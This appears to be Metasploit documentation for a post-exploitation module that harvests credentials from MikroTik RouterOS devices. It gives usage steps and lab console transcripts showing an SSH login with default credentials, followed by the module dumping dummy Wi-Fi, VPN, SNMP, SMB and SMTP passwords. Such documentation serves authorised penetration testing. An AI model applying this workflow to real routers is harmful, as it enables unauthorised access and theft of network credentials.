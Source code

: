 ## Vulnerable Application

This module has been tested on the following hardware/OS combinations.

* RouterOS 6.45.9 OVA

The image is available from MikroTik [here](https://download.mikrotik.com/routeros/6.45.9/chr-6.45.9.ova)

This module runs the following commands to gather data:

* `/system package print without-paging`
* `/export verbose`

This module will look for the follow parameters which contain credentials:

* `/interface ovpn-client`
* `/interface pppoe-client`
* `/interface l2tp-client`
* `/interface pptp-client`
* `/snmp community`
* `/ppp secret`
* `/ip smb users`
* `/tool e-mail`
* `/interface wireless security-profiles`

## Verification Steps

1. Start msfconsole
2. Get a shell
3. Do: ```use post/networking/gather/enum_mikrotik```
4. Do: ```set session [id]```
5. Do: ```set verbose true```
6. Do: ```run```

## Options

## Scenarios

### RouterOS 6.45.9 OVA Image on ESXi 6.7

```
resource (mikrotik.rb)> use auxiliary/scanner/ssh/ssh_login
resource (mikrotik.rb)> set username admin
username => admin
resource (mikrotik.rb)> set password password
password => password
resource (mikrotik.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (mikrotik.rb)> run
[+] 1.1.1.1:22 - Success: 'admin:password' 'MikroTik CHR 6.45.9 (long-term)'
[*] Command shell session 1 opened (2.2.2.2:41365 -> 1.1.1.1:22) at 2020-07-18 11:06:32 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
resource (mikrotik.rb)> use post/networking/gather/enum_mikrotik
resource (mikrotik.rb)> set session 1
session => 1
resource (mikrotik.rb)> set verbose true
verbose => true
resource (mikrotik.rb)> run
[*] Getting version information
[+] Flags: X - disabled 
 #   NAME                    VERSION                    SCHEDULED              
 0   routeros-x86            6.45.9                                            
 1   system                  6.45.9                                            
 2 X ipv6                    6.45.9                                            
 3   ups                     6.45.9                                            
 4   wireless                6.45.9                                            
 5   hotspot                 6.45.9                                            
 6   mpls                    6.45.9                                            
 7   routing                 6.45.9                                            
 8   ppp                     6.45.9                                            
 9   dhcp                    6.45.9                                            
10   security                6.45.9                                            
11   advanced-tools          6.45.9                                            
12   dude                    6.45.9                                            


[+] Version information stored in to loot /home/h00die/.msf4/loot/20200718121308_default_1.1.1.1_mikrotik.version_923296.txt
[*] Gathering info from /export verbose
[+] 1.1.1.1:22 OS: RouterOS 6.45.9
[+] 1.1.1.1:22 Wireless AP wpawifi with WPA password presharedkey
[+] 1.1.1.1:22 Wireless AP wpa2wifi with WPA2 password presharedkey
[+] 1.1.1.1:22 Wireless AP wpaeapwifi with WPA2-EAP username username password password
[+] 1.1.1.1:22 Wireless AP wepwifi with WEP password 0123456789 with WEP password 0987654321 with WEP password 1234509876 with WEP password 0192837645
[+] 1.1.1.1:22 Wireless AP wep1wifi with WEP password 1111111111
[+] 1.1.1.1:22 disabled Open VPN Client to 10.99.99.98 on mac FE:45:B0:31:4A:34 named ovpn-out1 with username user and password password
[+] 1.1.1.1:22 disabled Open VPN Client to 10.99.99.98 on mac FE:45:B0:31:4A:34 named ovpn-out2 with username user and password password
[+] 1.1.1.1:22 disabled Open VPN Client to 10.99.99.98 on mac FE:45:B0:31:4A:34 named ovpn-out3 with username user and password password
[+] 1.1.1.1:22 disabled Open VPN Client to 10.99.99.98 on mac FE:45:B0:31:4A:34 named ovpn-out4 with username user and password password
[+] 1.1.1.1:22  PPPoE Client on ether2 named pppoe-user and service name internet with username user and password password
[+] 1.1.1.1:22  L2TP Client to 10.99.99.99 named l2tp-hm with username l2tp-hm and password 123
[+] 1.1.1.1:22  PPTP Client to 10.99.99.99 named pptp-hm with username pptp-hm and password 123
[+] 1.1.1.1:22 SNMP community write with password write and write access
[+] 1.1.1.1:22 SNMP community v3 with password 0123456789(SHA1), encryption password 9876543210(AES) and write access
[+] 1.1.1.1:22  SMB Username mtuser and password mtpasswd
[+] 1.1.1.1:22 disabled SMB Username disableduser and password disabledpasswd with RO only access
[+] 1.1.1.1:22 disabled PPP tunnel bridging named ppp1 with profile name ppp_bridge and password password
[+] 1.1.1.1:22 SMTP Username smtpuser and password smtppassword for 1.1.1.1:25
[*] Post module execution completed
```
